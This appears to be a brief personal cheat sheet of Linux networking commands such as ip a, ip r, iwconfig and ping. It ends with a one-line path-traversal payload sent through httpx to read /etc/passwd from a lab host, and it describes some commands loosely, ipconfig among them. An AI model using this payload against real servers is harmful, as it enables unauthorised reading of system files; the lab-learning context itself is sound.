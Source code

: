 ### Common networking commands  

`ip a`    will show all network interface configurations for all adapters, both wired and wireless  
`ipconfig`   just like `ip a`, it will show all but only the wired adapters  
`iwconfig`   is the same as `ifconfig` but for wireless adapters  

`ip n`    the 'n' stands for neighbor.  same as `arp -a`  

`ip r`   the 'r' stands for route.  will show you the current routing table  
&ensp;	`route`   will do the same thing  

`ping`    is the wonderful ping command.  

There are also commands like `curl` and `httpx`

`httpx http://192.168.126.13:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd --download test; cat test`

Had to use this on a lab when the `curl` command wouldn't give me what I needed.